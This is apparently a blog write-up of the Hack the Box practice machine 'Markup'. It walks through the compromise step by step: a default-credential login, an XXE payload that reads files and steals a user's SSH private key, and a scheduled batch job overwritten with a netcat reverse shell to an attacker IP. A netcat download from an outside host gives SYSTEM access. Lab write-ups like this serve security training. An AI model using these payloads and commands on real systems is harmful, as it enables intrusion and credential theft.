 ```yaml
---
title: Markup
date: 2024-03-10 10:00
categories: [ctf, security, hacking, exploits, scheduled job abuse, ssh, weak credentials, arbitrary file upload, xxe injection]
tags: [ctf, security, hacking, exploits, scheduled job abuse, ssh, weak credentials, arbitrary file upload, xxe injection]
---
```


# Overview
Markup is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some web app enumeration and using an xxe injection to read files. The foothold is accomplished after gaining access to a login page, use xxe injection to read files on the host and steal file contents to get onto the host over ssh. The privilege escalation is accomplished through enumerating the host for interesting files that execute as the administrator, and modifying the file to execute a new command in order to get a shell back.

## Nmap Scan
sudo nmap -sS `<target ip>` -vvv

* 22/tcp  open  ssh     syn-ack ttl 127
    * OpenSSH for_Windows_8.1
* 80/tcp  open  http    syn-ack ttl 127
    * Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
* 443/tcp open  https   syn-ack ttl 127

## Basic Enumeration
Going over to the website, we can sign in with some bad default credentails. While `admin:admin` doesn't work, `admin:password` does allow us access.

* Looking around the web site, we do have a couple places where we could try to pass user input to try cross-site scripting, sql injection, or xxe injection.
- We can use BurpSuite to do some testing.
    - Send our test response to repeater.
    - we can see if we can try to read the etc/hosts file on windows
        - `C:\windows\system32\drivers\etc\hosts`
    - we found a way to read `win.ini` file as well.

```xml
<!DOCTYPE root [<!ENTITY ext SYSTEM 'file:///c:/windows/win.ini'>]>
```
We also had to change our `item` parameter to match the Entity type (since this is `ext`, we have to change item to be `&ext;`).

## Foothold
Now, we can try to just guess around for files, so it may helpful for us to check around the site page for more information. Checking the web page source code, we see a user `Daniel` who modified the web page. 

* Since we know that ssh is on this host, we can try to navigate over to the user’s ssh folder and get their key.
    * `C:/users/daniel/.ssh/id_rsa`
    * Grab that key using the above xxe injection.
    * Put it in an id_rsa file on our attacker machine.
    * `chmod 400 id_rsa`

Now we try to connect to the machine over ssh.
- `ssh -i id_rsa daniel@<target ip>`

We can now read the `user.txt`.

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/markup/Markup_User.png?raw=true)

## Local Enumeration
Checking around the file system, there is an interesting file path `Log-Management`. There is a file here, `job.bat`. Checking the file contents, we can see this file is set up to execute the process `wevtutil.exe`:
```batch
@echo off
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
```

## Privilege Escalation
Using `icacls.exe`, we can check to see if we have permissions to modify the file. For our permissions, we see an `(F)`, meaning we have full control. We can modify this file and have it execute either something else, or add what we to have this file run. 

* We can run the following to modify what this file executes: 
    * `echo C:\Log-Management\nc64.exe -e cmd.exe {attacker_IP} {port} > C:\Log-Management\job.bat`
        * Do not run the above in powershell.
* Pull the Netcat over to the victim:
    * `wget http://10.10.14.60:8000/nc64.exe -outfile nc64.exe`
    * Run the above in powershell. 

As a scheduled task, this batch job is schduled to run. We can set up netcat on our attacker machine and wait for the connection back. However, while doing this, this seems to not work in this manner. We did remember that we have full control over the file. So, instead of waiting for the scheduled task to run, we can just for the file to execute. 

* We run the batch file, and get a shell back as `nt authority\system`. We can now read `root.txt`.

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/markup/Markup_Root.png?raw=true)
